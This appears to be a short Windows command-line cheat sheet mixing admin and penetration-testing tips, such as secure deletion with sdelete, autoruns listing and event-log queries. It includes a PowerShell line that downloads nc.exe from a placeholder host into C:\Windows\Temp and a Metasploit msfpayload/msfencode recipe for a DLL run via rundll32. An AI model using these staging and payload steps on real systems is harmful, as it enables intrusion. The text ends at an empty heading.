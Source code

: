 ### Use the Package Manager in Windows to install the Telnet client on Windows Vista & higher

```
C:\> pkgmgr /iu:"TelnetClient"
```

### Secure delete a file/folder in Windows

**Sysinternals**

```
C:\> sdelete -p 10 a.txt
```

To recursively delete folders:

```
C:\> sdelete -10 -r C:\data\
```

### Show all startup entries while hiding Microsoft entries. CSV output

**It covers more locations than Windows inbuilt tools**

```
C:\> autorunsc -m -c
```

### Download files via commandline using PS

```
PS C:\> ipmo BitsTransfer;Start-BitsTransfer -Source http://foo/nc.exe -Destination C:\Windows\Temp\
```

### Fetch the last 10 entries from the Windows Security event log, in text format

```
C:\> wevtutil qe Security /c:10 /f:Text
```
**def is XML**

### Create a dll that runs calc on invoke

```
msfpayload windows/exec cmd=calc.exe R | msfencode -t dll -o rcalc.dll

C:\> rundll32.exe rcalc.dll,1
```

### Run a command as another user

**You will be prompted for password**
